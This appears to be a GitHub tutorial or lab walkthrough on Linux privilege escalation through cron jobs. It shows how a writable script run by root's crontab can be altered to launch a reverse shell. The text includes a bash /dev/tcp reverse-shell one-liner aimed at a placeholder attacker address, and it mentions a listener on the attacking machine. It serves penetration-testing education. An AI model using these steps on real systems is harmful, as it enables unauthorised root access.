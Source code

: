 Cron jobs : 

Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions.

Cron job configurations are stored as crontabs (cron tables) to see the next time and date the task will run.

Each user on the system have their crontab file and can run specific tasks whether they are logged in or not. As you can expect, our goal will be to find a cron job set by root and have it run our script, ideally a shell.

Any user can read the file keeping system-wide cron jobs under 

  
    /etc/crontab
    
 
![crontab](https://user-images.githubusercontent.com/94765997/162629920-414a4311-fb87-4454-b684-132681eea082.png)

As our current user can access this script backup.sh , we can easily modify it to create a reverse shell, hopefully with root privileges.

The script will use the tools available on the target system to launch a reverse shell .
  
    bash -i >& /dev/tcp/@/N_port 0>&1

![catback](https://user-images.githubusercontent.com/94765997/162630021-89e2f7a3-12e7-4fe1-811c-1bd3c50b4437.png)

![19](https://user-images.githubusercontent.com/94765997/162630043-cefb943a-77e3-4257-8a16-9e38b8c6cd72.png)

We will now run a listener on our attacking machine to receive the incoming connection : 

![20](https://user-images.githubusercontent.com/94765997/162630121-4e400743-95dc-40d9-a76c-eb3a0085b6af.png)
